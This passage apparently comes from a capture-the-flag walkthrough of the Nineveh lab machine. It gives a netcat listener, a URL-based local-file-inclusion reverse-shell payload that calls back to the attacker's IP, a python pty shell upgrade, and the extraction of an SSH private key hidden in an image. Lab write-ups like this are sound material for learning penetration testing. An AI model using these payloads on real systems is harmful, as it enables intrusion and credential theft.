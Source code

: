 ```bash
nc -lvnp 4321
```

Next, browse to the following url, and make sure to change the IP address to work with your attacker machine:

```txt
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/dev.php&cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.4/4321 0>%261'
```

We can see that we recieved a shell on our listener:

![x](9-screenshots-storage/pop_shell.png)

We can upgrade our shell by running the following command: 

```python
python3 -c 'import pty;pty.spawn("bash")'
```

![x](9-screenshots-storage/pimp_shell.png)

In order to escalate privileges, we can use an exposed SSH private key.

Run the following commands on the target machine to access the ssh private key:

```txt
cd /var/www/ssl/secure_notes/
strings -n 20 nineveh.png
```

Make a new file on your attacker machine called *amoris.id_rsa*, and change the file permissions with the following command:

```txt
chmod 600 amoris.id_rsa
```

Now copy the ssh private key to *amoris.id_rsa*.
